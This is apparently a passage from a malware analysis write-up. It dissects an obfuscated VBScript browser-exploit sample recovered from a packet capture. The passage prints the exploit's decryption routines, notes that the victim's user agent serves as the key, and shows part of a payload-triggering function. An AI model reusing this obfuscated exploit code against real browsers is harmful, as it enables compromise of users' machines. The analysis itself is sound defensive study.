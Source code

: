```vb
End Class

Set IIIIIIIIIIIIIIIIIIIIIII = New IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII

Call IIIIIIIIIIIIIIIIIIIIIII.IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,Len(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII))

Call IIIIIIIIIIIIIIIIIIIIIII.IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIII,UBound(IIIIIIIIIIIIIIIIIIIIIIIII)+1,IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII)

  For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To 51
    IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII) = Chr(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII))
  Next
  For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To (UBound(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII)-53)/2
    IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(52+IIIIIIIIIIIIIIIIIIIIIIIIIIIIII) = ChrW((IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(52+IIIIIIIIIIIIIIIIIIIIIIIIIIIIII*2) + (IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(52+IIIIIIIIIIIIIIIIIIIIIIIIIIIIII*2+1) * &h100)))
  Next
IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII = join(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,"")
```


These two functions are used to decrypt the big array at the beginning. I failed to identify the algorithm, but it seems that the first fuction is a key scheduling algorithm and the second one is the actual decryption function. One can notice that the decryption key is the user agent of the navigator used by the victim, which we can find in the PCAP: "Mozilla/4.0 (compatible; MSIE 5.0; Windows 98; DigExt)". I merely replaced that in a shortened script of my own and dumped the decrypted array to a file.

Once decrypted, the big blob at the beginning contains a few readable strings at the beginning, followed by a huge payload.
```
"v:shape_shape_vgRuntimeStyledashstylearrayitemlength｠⑔慄쀱썈襕工ߩ"...
```

And finally, a function ```a()``` called from the javascript:
```vb
Function a()
    Dim IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,IIIIIIIIIIIIIIIIIIIIIIIIIII,IIIIIIIIIIII,IIIIIIIIIIIII,IIIII,IIII,IIIIIIIII,IIIIIII,IIIIIIIIIIIIIIIIIIIIIIIIIIII,IIIIIIII,IIIIII,IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,II,IIIIIIIIIIIIII
    ReDim IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(42)
    ReDim IIIIIIIIIII(32)
    ReDim III(UBound(IIIIIIIIIII))
    ReDim IIIIIIIIII(UBound(IIIIIIIIIII))
    ReDim IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(50)

    For IIIIIIIIIIIIIIIIIIIIIIIIIIIIII = 0 To 42
        IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII(IIIIIIIIIIIIIIIIIIIIIIIIIIIIII) = IIIIIIIIIIIIIIIIIIIIIIIIIIIIII + 1
    Next
    IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII = join(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII)
    IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII = Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,1,8)

    IIIIIIIII = Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,53,5)
    IIIIIII = Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,58)

    set IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII = J(v2,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,734678-734649,734678-734669))
    set IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII = J(v1,Mid(IIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIIII,894112-894083,894112-894103))

    IIIIIIIIIIIIIIIIIIIIIIIIIII = 0
```